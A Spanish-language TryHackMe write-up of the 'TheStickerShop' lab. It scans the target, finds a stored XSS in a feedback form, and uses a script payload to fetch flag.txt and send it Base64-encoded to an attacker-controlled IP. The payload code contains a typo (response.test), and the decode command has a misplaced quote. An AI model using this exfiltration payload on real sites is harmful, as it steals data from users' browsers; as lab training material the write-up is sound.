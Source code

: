 ```yaml
---
title: TheStickerShop - TryHackMe
published: 2024-12-05
description: 'En este WriteUp se analizó un servidor con los puertos 22/tcp (SSH) y 8080/tcp (HTTP) abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de XSS (Cross-Site Scripting) en el formulario de la sección Feedback, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar data exfiltration del archivo protegido flag.txt'
image: '../../../assets/TryHackMe/TheStickerShop/thestickershop-tryhackme.png'
tags: [WriteUp, TryHackMe]
category: 'WriteUp'
draft: false 
---
```


## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-0.png)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-1.png)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-2.png)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-3.png)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-4.png)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-5.png)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-6.png)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-7.png)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-8.png)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-9.png)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-10.png)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-11.png)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-12.png)

Una vez decodificado el texto, nos devuelve la flag. Completado el objetivo hemos finalizado la máquina y por ende hemos terminado.